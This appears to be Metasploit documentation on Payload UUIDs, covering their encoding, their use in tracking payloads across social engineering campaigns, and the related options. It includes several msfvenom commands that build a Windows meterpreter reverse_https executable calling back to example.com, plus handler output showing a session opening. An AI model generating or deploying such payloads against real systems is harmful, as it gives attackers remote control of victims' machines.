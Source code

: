 In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```


Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json
{
  "68017d72958c40f6": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435277049,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"127.1.1.1","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/aAF9cpWMQPb-3f_cq1FoJA040uMw26kAnvroJdztpVzDrNpqbpT7t3DyYy0cR2TyQE87XxHgIOKiYwP2FJNlNjrBXWQNiGWtzUK1ueJ0DyFjCXmULVo_gGrvi"
]
}
}
```

Once this payload is launched, the output of the ```sessions -l -v``` command will show the UUID, whether or not the UUID is registered, and any locally-assigned name of the UUID:
```
msf exploit(handler) > run -j
[*] 127.0.0.1:36235 (UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z) Staging Native payload ...
[*] Meterpreter session 1 opened (127.1.1.1:4444 -> 127.0.0.1:36235) at 2015-06-25 17:12:40 -0700

msf exploit(handler) > sessions  -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: fang\hdm @ fang
      Tunnel: 127.1.1.1:4444 -> 127.0.0.1:36235 (127.0.0.1)
         Via: exploit/multi/handler
        UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z
   MachineID: 1fd541d2c4278e2d0c1b02f17f142f2b
     CheckIn: 1s ago @ 2015-06-25 17:12:47 -0700
  Registered: Yes - Name="EmailCampaign20150101"
```
